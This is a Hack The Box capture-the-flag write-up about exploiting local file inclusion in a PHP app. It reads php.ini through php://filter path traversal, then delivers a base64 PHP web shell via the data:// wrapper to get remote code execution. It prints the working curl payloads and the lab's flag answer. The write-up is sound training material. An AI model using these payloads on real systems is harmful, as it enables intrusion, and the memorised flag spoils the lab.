








# Hack The Box - PHP Data Wrapper RCE | Write-up

> **Platform:** Hack The Box &nbsp;•&nbsp; **Category:** Web / File Inclusion &nbsp;•&nbsp; **Difficulty:** Easy
>
> **Target:** `154.57.164.82:32059` &nbsp;•&nbsp; **Time taken:** 15 mins
>
> **Author:** Jithin Jelson

---

## Introduction

This lab requires us to exploit a file inclusion vulnerability on our target IP address. We have been told that there are certain PHP wrappers enabled, so we have to identify which wrapper to use and then get RCE.

---

## Assessment Overview

```mermaid
flowchart LR
    A["Browse target :32059<br/>LFI in language param"]:::entry --> B["Recon"]:::entry

    B --> B1["Force 404<br/>server = Apache/2.4.41"]:::payload
    B --> B2["Read php.ini<br/>php://filter base64"]:::payload

    B1 --> C{"data:// wrapper<br/>usable?"}:::decision
    B2 --> D["Decode base64<br/>allow_url_include = On"]:::user
    D --> C

    C --> E["Encode web shell<br/>to base64"]:::payload
    E --> F["data://text/plain;base64<br/>+ cmd parameter"]:::payload
    F --> G["RCE as www-data<br/>id confirms"]:::user

    G --> H1["Enumerate<br/>cmd=ls / filesystem"]:::payload
    G --> H2["Locate flag file<br/>37809...ef1.txt"]:::payload
    H1 --> H2
    H2 --> I["cmd=cat flag<br/>HTB{...}"]:::user

    classDef entry fill:#1d4ed8,stroke:#1e3a8a,color:#ffffff;
    classDef payload fill:#be123c,stroke:#881337,color:#ffffff;
    classDef user fill:#15803d,stroke:#14532d,color:#ffffff;
    classDef decision fill:#b45309,stroke:#78350f,color:#ffffff;
    linkStyle default stroke-width:2px
```



---

## What I Learned

- How to fingerprint the web server as Apache by forcing a 404 error page.
- Reading `php.ini` through the base64 `php://filter` to check the `allow_url_include` setting.
- Confirming `allow_url_include` was On, which is what makes the data wrapper attack possible.
- Encoding a PHP web shell to base64 and delivering it through the `data://` wrapper.
- Passing commands to the shell with the `cmd` parameter and grepping the response for the output.
- Using the RCE to list the filesystem and read the flag file in the web root.

---

## Enumerating the Target

We can start by going to our target IP in our browser.



*Figure 1 - The target homepage, the Inlane Freight application on port 32059.*

We can now check to see if the data wrapper is available to us to execute RCE. To check this we need to first identify if the web application is Apache or nginx, so we triggered an error and found out it was Apache.



*Figure 2 - Requesting a bad path returns an Apache error page: `Apache/2.4.41 (Ubuntu)`.*

---

## Checking allow_url_include

Now we have to check `/etc/php/X.Y/apache2/php.ini` to see if the `allow_url_include` setting is enabled. We will do this using curl with the following command:

```
curl "http://154.57.164.82:32059/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"
```



*Figure 3 - The `php.ini` file is returned as base64 via the filter wrapper.*

Now once we have our base64 we can decode it to confirm it.



*Figure 4 - Decoding the base64 shows `allow_url_include = On`.*

We can see that the option is enabled, so it means we can execute an attack using the data wrapper.

---

## Gaining RCE via the data Wrapper

Our next step is to encode our RCE command (a PHP web shell) into base64.



*Figure 5 - Encoding `<?php system($_GET["cmd"]); ?>` to base64.*

We can now pass this into the data wrapper `data://text/plain;base64,` along with the `&cmd=` command parameter to obtain RCE (we have to URL encode).

```
curl -s 'http://154.57.164.82:32059/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2B&cmd=id' | grep uid
```



*Figure 6 - The `id` command runs as `www-data`, confirming remote code execution.*

And just like that we have RCE.

---

## Capturing the Flag

Using the same shell to list the filesystem reveals the flag file in the web root.



*Figure 7 - Listing reveals the flag file `37809e2f8952f06139011994726d9ef1.txt`.*

The final command was:

```
curl -s 'http://154.57.164.82:32059/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2B&cmd=cat+../../../../37809e2f8952f06139011994726d9ef1.txt'
```



*Figure 8 - Reading the flag file with `cat`.*

> **Objective: exploit the enabled PHP wrapper to get RCE and read the flag.**

**Answer:** `HTB{d!$46l3_r3m0t3_url_!nclud3}`
